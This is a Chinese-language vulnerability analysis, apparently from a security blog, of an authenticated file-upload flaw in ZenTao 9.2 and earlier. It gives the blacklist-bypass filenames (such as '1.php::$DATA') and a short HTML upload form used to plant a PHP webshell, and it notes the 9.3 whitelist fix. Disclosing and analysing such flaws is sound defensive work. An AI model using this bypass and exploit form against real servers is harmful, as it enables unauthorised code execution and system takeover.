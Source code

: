 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

该方法中设定了如果$method方法中存在ajax字符串，即可以跳过后续的验证直接访问执行，然后我们分析一下上面的if判断语句：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以看到只要有用户登录，而且用户登录名不是guest，（这里是账号名字，不是账号组），那么就可以满足条件。为了验证一下访问权限，这里创建了一个guest组的账号，然后利用该账号进行登录，登录成功后访问url: /file-ajaxupload

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

既然我们guest组的账号可以访问到该方法，接下来就该分析一下上传代码了。

#### 绕过黑名单上传：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里上传的最终文件名来自于$this->file->getUpload(‘imgFile’)的返回结果。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里关键的getExtension方法获取并且验证后缀。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以很容易看到这里采用的黑名单的验证模式，在Windows下，我们可以通过123.php::$DATA ，1.php\[\\x81-\\x99\]等文件名来绕过黑名单模式，达到上传php文件造成getshell漏洞。

#### 漏洞验证：

1.  注册一个任意组的账号并登陆。
    
2.  使用如下exp，上传一个文件名为1.php::$DATA的shell文件。
    
    Exp.html
    

```
`<!DOCTYPE html>``<html lang="en">``<head>` `<meta charset="UTF-8">` `<title>禅道9.2及之前getshell</title>``</head>``<body>``<form action="http://10.70.132.34:81/zentao/file-ajaxUpload" method="post" enctype="multipart/form-data">` `<input type="file" >` `<input type="submit" >``</form>``</body>``</html>`
```

利用结果如图所示：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

成功绕过了黑名单验证，进行了上传php文件，访问的时候，忽略掉最后的::$DATA即可。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

到这里我们就成功挖掘到了一个任意用户组的getshell漏洞，该漏洞影响版本<=9.2版本，在9.3中对上传使用了白名单验证。同时也给客户展示了打过补丁的低版本禅道系统开放在外网仍然存在一定的风险性，然后建议在不影响业务的情况下，还是尽量将系统放在内网中使用，因为难免会在长时间开放在外网的情况下，某用户的账号密码泄露导致系统被getshell。

  

**总结**
